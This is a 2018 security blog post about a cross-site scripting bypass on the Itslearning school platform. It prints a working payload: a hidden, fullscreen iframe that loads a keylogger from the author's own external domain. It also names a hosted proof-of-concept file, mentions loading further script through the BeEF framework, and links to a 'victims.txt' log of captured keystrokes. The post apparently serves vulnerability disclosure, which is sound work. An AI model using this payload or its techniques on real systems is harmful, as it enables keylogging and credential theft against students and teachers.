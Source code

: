 ```yaml
---
title: "ITSLEARNING XSS PART 2"
date: "2018-01-27"
category: blog
headerImage: true
tags: 
  - "cyber-security"
  - "iframe"
  - "itslearning-webcam"
  - "itslearning-xss"
  - "muskecan"
  - "mustafa-kemal-can"
  - "siber-guvenlik"
image: /assets/posts/itslearning-xss-vulnerability.jpg
---
```


Today I want to explain you how I can still be able to execute javascript payloads on Itslearning education syste. Itslearning XSS part 2 begins!

You should check the part 1 of this article.

#### [ITSLEARNING STORED XSS VULNERABILITY OR NOT?](https://mustafakemalcan.com/itslearning-stored-xss-vulnerability/)

Mr. Håkon Høydal, [wrote an article](https://www.vg.no/nyheter/innenriks/i/9mEe29/sikkerhetshull-i-skoleportal-mener-han-kan-få-tilgang-til-dine-barns-webkamera) about Itslearning. After that Itslearning, did some things to filter javascript codes. But this is not enough I guess.

## Itslearning XSS - iFrame is the key!

With the help of an iframe which is fullscreen and hidden, I can execute my keylogger payload.

#### Payload and PoC;

<iframe src\="[https://mustafakemalcan.com/keylog.html](https://mustafakemalcan.com/keylog.html)" style\="position:fixed; top:0px; left:0px; bottom:0px; right:0px; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;">Your browser doesn't support iframes</iframe>

**PoC** : https://files.itslearning.com/data/2099/13132/keylog.html

I can call my evil js by the way. So, **I still can use BeeF XSS Framework.**

[Here is the logs.](https://mustafakemalcan.com/victims.txt)

The second XSS, I consider that not an harmful but I think Itslearning shouldn't allow something like that.

https://youtu.be/z6PUMjiNWX4

I need say thanks to **Ingvald Straume** for helps in this process.
